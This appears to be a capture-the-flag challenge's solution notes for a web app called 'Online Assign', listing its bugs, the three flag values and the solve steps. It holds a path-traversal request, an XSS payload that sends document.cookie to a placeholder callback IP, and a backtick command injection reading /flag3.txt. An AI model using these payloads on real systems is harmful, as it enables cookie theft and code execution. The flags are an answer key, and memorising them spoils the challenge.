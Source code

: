 # Online Assign

Bugs:
* image proxy allows read in www root
    * Flag 1 in index.php comment
* XSS on "ask your teacher"
    * Flag 2 on review page, gives teacher cookies
* teacher portal gives code exec by adding question verification snippets
    * bypass sanitizer with backticks giving code exec
    * Flag 3 in `/flag3.txt`

Flags:
1. `flag{c9c2645cc1cb118487ef6d37b3c2829eb76935fd}`
2. `flag{732eeffa297aecc1ea586042ba3ea696427cb760}`
3. `flag{0807280d430ed53ad2a1b981c49810cb943046be}`

Solve:
1. go to `/image.php?path=index.php`
2. ask your teacher `<script>document.write('<img src="http://{CALLBACK_IP_HERE}/asdf/?'+document.cookie+'"/>')</script>`, steal cookies, go to home page
3. change question answer checker source to `echo \`cat /flag3.txt\`; return true;`
